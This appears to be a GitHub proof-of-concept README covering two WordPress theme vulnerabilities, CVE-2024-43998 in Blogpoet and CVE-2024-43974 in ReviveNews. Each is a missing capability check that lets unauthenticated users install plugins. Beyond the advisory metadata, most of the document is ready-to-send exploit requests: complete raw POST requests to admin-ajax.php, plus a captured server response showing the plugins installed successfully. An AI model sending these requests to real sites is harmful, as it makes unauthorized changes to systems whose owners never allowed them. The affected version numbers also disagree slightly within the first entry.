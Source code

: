 # CVE-2024-43998

```
Blogpoet <= 1.0.2 - Missing Authorization via blogpoet_install_and_activate_plugins()
Published: 2024-08-29 00:00:00
Classification:
cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N
cvss-score: 5.3
cve-id: CVE-2024-43998
cpe: cpe:2.3:a:blogpoet:blogpoet:*:*:*:*:*:*:*:*
cwe-id: CWE-862
Slugs: blogpoet
Description:
The Blogpoet theme for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the blogpoet_install_and_activate_plugins() function in versions up to, and including, 1.0.3. This makes it possible for unauthenticated attackers to install and activate plugins.
Reference: [https://www.wordfence.com/threat-intel/vulnerabilities/id/019cfdff-c67b-4451-984d-](https://www.wordfence.com/threat-intel/vulnerabilities/id/019cfdff-c67b-4451-984d-a7b6973ab61d)
```

POC
---

Request

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/index.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

action=blogpoet_install_and_activate_plugins
```

Response

```
HTTP/1.1 200 OK
Date: Tue, 10 Sep 2024 09:36:51 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.23
Access-Control-Allow-Origin: http://kubernetes.docker.internal
Access-Control-Allow-Credentials: true
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 701

<div class="wrap"><h1></h1><p>Downloading installation package from <span class="code pre">https://downloads.wordpress.org/plugin/templategalaxy.1.0.11.zip</span>&#8230;</p>
<p>Unpacking the package&#8230;</p>
<p>Installing the plugin&#8230;</p>
<p>Plugin installed successfully.</p>
</div><div class="wrap"><h1></h1><p>Downloading installation package from <span class="code pre">https://downloads.wordpress.org/plugin/advanced-import.1.4.3.zip</span>&#8230;</p>
<p>Unpacking the package&#8230;</p>
<p>Installing the plugin&#8230;</p>
<p>Plugin installed successfully.</p>
</div>{"success":true,"data":{"redirect_url":"http:\/\/kubernetes.docker.internal\/wp-admin\/themes.php?page=advanced-import"}}
```

It will install advance-import plugin and templategalaxy plugins only unless some one has changed the code.



CVE-2024-43974
---

The ReviveNews theme for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the revivenews_install_and_activate_plugins() function in versions up to, and including, 1.0.2. This makes it possible for unauthenticated attackers to install and activate plugins.

```
Missing Authorization
CVSS Vector
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N
CVE 	CVE-2024-43974
CVSS 	5.3 (Medium)
Publicly Published 	August 28, 2024
Last Updated 	September 4, 2024
```


POC
---

Request

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/index.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

action=revivenews_install_and_activate_plugins
```

This will install cozy-addons,advanced-import,cozy-essential-addons plugins

